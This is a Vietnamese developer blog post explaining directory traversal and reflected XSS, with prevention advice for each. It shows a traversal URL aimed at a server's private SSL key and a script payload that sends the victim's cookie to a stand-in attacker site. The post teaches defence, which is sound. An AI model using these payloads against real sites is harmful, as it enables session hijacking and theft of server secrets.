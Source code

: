 ## [Part 1](https://viblo.asia/p/cac-ki-thuat-hack-co-ban-lap-trinh-vien-nen-biet-phan-1-gDVK2BvrKLj)
## Part 2
### Directory Traversal
Là lỗ hổng cho phép hacker có thể đọc được các file trên server, cơ bản nhất là qua url, có thể là param hoặc đường dẫn trực tiếp

Ví dụ: bạn có url `foodle.com/menus?menu=menu.pdf` => `foodle.com/menus?menu=../../../../ssl/private.key` => xong cái server nhà bạn

Hoặc dễ thấy nhất là bạn có url file (thường là ảnh)  `foodle.com/upload/images/menu/menu2nd.png` => `oodle.com/upload/images` => full gia phả 3 đời của menu2nd.png đã hiện ra trước mặt anh hacker

![](https://images.viblo.asia/87e5717d-a438-433a-8451-19c5dfcf3a3e.png)

####  Phòng chống
##### 1. Sử dụng hệ thống quản lý nội dung
Trường hợp bạn quản lý nhiều file thì việc sử dụng một hệ thông bên thứ 3 giúp hỗ trợ quản lý là việc lên làm và dù có thể phải trả một khoản phí hàng năm, nhưng vấn đề hoàn toàn không phải lo nữa.
##### 2. Chuyển hướng file
Thay vì dùng đường dẫn trực tiếp đến tệp, bạn có thể dùng api hoặc gì đó để lấy tệp qua một controller chung gian chả hạn, nhớ là valid input nhé
##### 3. Tách biệt các loại tài liệu
Tách các loại tài liệu ra, thành dùng chung, user, admin,.... với đó, bạn có thể phân quyền truy cập nên kể cả khi hacker có thể lần ra được đường dẫn, nếu không có quyền tương ứng, họ cũng không thể lấy được thông tin

### Reflected XSS
Hầu hết cách kĩ thuật XSS là Reflected XSS, hacker không gửi dữ liệu độc hại lên server nạn nhân, mà gửi trực tiếp link có chứa mã độc cho người dùng, khi người dùng click vào link này thì trang web sẽ được load chung với các đoạn script độc hại. Reflected XSS thường dùng để ăn cắp cookie, chiếm session,… của nạn nhân hoăc cài keylogger, trojan … vào máy tính nạn nhân.

VD: nạn nhân có tài khoản đang đăng nhập tại website `welp.com`

hacker sẽ gửi cho nạn nhân một đường dẫn kiểu vậy `www.welp.com?search=<script>window.location="http://www.haxxed.com?cookie="+document.cookie</script>`

Khi nạn nhân click vào, đầu tiên họ sẽ được mở đến trang `welp.com` và tìm kiếm `<script>window.location="http://www.haxxed.com?cookie="+document.cookie</script>`

Đoạn script sẽ thực thi và lấy cookie, đồng thời điều hướng sang web của hacker cùng với cookie trên param

vậy là hacker đã có thể truy cập vào `welp.com` bằng tài khoản của người dùng mà chả cần biết password

![](https://images.viblo.asia/fabbeb12-2173-467f-8c54-f7b36c4d22f0.png)

#### Phòng chống
##### 1. Validate input
Rất đơn giản và vô cùng hiệu quả, encode hết các ký tự đặc biệt, hiển thị chúng dưới dạng mã html, dùng white list để cho phép ký tự nào được input, ez game
```
"	&#34
#	&#35
&	&#38
'	&#39
(	&#40
)	&#41
/	&#47
;	&#59
```